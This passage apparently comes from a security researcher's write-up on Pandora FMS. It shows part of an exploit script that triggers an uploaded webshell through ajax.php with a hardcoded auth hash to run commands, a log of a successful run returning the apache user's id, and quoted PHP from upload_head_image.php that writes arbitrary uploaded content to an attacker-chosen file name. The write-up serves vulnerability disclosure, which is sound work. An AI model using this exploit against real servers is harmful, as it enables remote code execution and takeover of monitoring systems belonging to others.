```python3
    print("[+] Upload succeeded!")
    print("[*] Triggering the `id` command")
    url_shell = f"http://{sys.argv[1]}/pandora_console/ajax.php?auth_hash=5425a56583d038bf7b34df1aeed003c92d4d0c8620d3c29ec4f5dbb1304aa551&id_user=1&c=id"
    data = {"page" : "/var/www/html/pandora_console/enterprise/meta/images/custom_logo/file", "method": "loadWelcomeWindow"}
    r = requests.post(url_shell, data=data)
    print(f"[*] Response:\n{r.text}")
    print(f"[*] Cleaning up to not leave the webshell lying around...")
    # overwrite webshell
    files["upload"] = ("file", b"")
    r = requests.post(url, files=files)
    if r.status_code == 200:
        print("[+] Cleanup worked")
    else:
        print("[-] Error while cleaning up, the shell is probably still there...")

else:
    print("[-] Exploit failed. Error while uploading our shell...")

```

And here a successful execution:
```bash

u@bzt:~/pandoraFMS$ python3 sploit1.py 192.168.178.88
[*] Uploading file...
[+] Upload succeeded!
[*] Triggering the `id` command
[*] Response:
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

[*] Cleaning up to not leave the webshell lying around...
[+] Cleanup worked
```

Funny enough RCE can also be achieved way easier, but where would the fun be if we would've had started with that one first.

I didn't show you the whole `upload_head_image.php` file, there is another `if` case - look below:

```php
} else if (isset($_GET['up'])) {            [1]
    if (isset($_GET['base64'])) {
        $content = base64_decode(file_get_contents('php://input'));
    } else {
        $content = file_get_contents('php://input');    [2]
    }

    $headers = getallheaders();
    $headers = array_change_key_case($headers, CASE_UPPER);

    if (file_put_contents($upload_folder.'/'.$headers['UP-FILENAME'], $content)) {  [3]
        echo 'done';
    }
```
